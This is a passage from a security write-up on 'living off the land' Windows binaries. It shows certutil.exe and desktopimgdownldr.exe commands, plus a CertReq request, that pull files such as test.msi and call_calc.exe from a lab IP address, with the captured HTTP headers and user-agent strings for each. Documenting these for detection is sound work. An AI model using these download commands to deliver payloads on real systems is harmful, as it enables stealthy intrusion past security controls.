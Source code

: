 ```http
POST /white_process/test HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Content-Type: application/json
User-Agent: Mozilla/4.0 (compatible; Win32; NDES client 10.0.18362.1/19h1_release)
Content-Length: 167
Host: 192.168.220.125
```

***Note***: Small files only

*Due to something going on with the internals of CertReq.exe only small (not sure on specific size limitations) files appear to work - otherwise you get the below error!*

### 3. Certutil.exe

```powershell
certutil.exe -urlcache -split -f http://192.168.220.125/white_process/test.msi
```

[***pcap***]({{site.url}}/assets/Living_Off_The_Land/pcap/Certutil.pcap)

```http
GET /white_process/test.msi HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Accept: */*
User-Agent: Microsoft-CryptoAPI/10.0
Host: 192.168.220.125
```

***Note*** 也有人遇到UA为 `CertUtil URL Agent` 的情况

### 4. Desktopimgdownldr.exe

```powershell
desktopimgdownldr.exe /lockscreenurl:http://192.168.220.125/white_process/call_calc.exe /eventName:hello
```

[***pcap***]({{site.url}}/assets/Living_Off_The_Land/pcap/desktopimgdownldr.pcap)

```http
GET /white_process/call_calc.exe HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Encoding: identity
If-Unmodified-Since: Wed, 25 Nov 2020 16:46:48 GMT
User-Agent: Microsoft BITS/7.8
Host: 192.168.220.125
```

***Note.1*** When used for its intended purpose, it downloads and saves images to the following default path:
